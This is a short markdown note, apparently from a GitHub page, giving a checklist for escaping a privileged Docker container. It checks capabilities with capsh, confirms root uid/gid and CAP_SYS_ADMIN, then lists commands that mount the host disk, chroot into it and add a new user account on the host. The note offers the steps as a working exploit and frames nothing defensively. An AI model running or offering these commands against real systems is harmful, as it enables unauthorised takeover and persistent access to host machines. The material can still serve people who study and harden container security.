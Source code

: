 * Run within docker container inside:<br>
```
capsh --print 
```
  * Check if root in uid = 0
  * Check if root in gid = 0
  * Check if sys_admin 
    *  If yes to above all, host easialy exploitable:
    ```
    mount /dev/sda /mnt/
    chroot ./ bash
    chroot /mnt/ adduser kaido89
    ```
